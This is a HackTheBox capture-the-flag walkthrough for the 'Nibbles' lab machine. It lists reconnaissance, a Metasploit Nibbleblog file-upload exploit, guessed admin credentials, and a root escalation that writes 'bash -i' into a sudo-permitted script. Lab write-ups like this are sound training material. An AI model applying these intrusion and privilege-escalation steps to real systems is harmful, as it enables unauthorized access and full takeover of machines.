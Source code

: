 HTB 6. Nibbles

1. Port 22 and 80 open from `nmap -A -T4 -p- 10.10.10.75`, typically 80 is for the exploit and 22 is used later. SSH is usually not the exploit. 
2. `searchsploit apache 2.4`
3. Going to `10.10.10.75` shows "Hello World" only
4. Viewing source shows `10.10.10.75/nibbleblog/` on nibbleblog platform
5. `searchsploit nibble` finds Nibbleblog 4.0.3 arbitrary file upload and remote code execution
6. In metasploit `use exploit/multi/http/nibbleblog_file_upload` and `info` shows we need to be authenticated
7. `dirbuster` to find login pages
8. Could potentially use Burp Suite to brute force usernames and password or just bruteforce password with admin as username. Potentially use `cewl` on blog posts to create password list. 
9. Credentials are `admin:nibbles`, guessed by site name.
10. Set parameters in metasploit to the username, password, rhosts, and `targeturi=/nibbleblog`.
11. This works because of the `My Image` plugin that allows any file to be uploaded (no whitelisting is being done)
12. `sysinfo` shows `4.4.0 ubuntu` and `gituid` show `nibbler (1001)`
13. Searching for priv_esc
	```
	shell
	cd /home/nibbler
	ls -la
	cat user.txt
	history
	cat .bash_history
	sudo -l
	```
14. `sudo -l` reveals `~/personal/stuff/monitor.sh` can run as root without a password
15. This folder does not exist so we can create a shell script in that location.
16. `personal.zip` exists, potentially try and crack it
17. `uname -a` to print entire OS running and potentially search for exploits for the general OS
18. [`LinEnum.sh`](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh) and [`linuxprivchecker.py`](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) are great scripts for enumerating linux.
19. `echo "bash -i" > monitor.sh` and `chmod +x monitor.sh`
20. `sudo /home/nibbler/personal/stuff/monitor.sh`
21. cat `/root/root.txt`


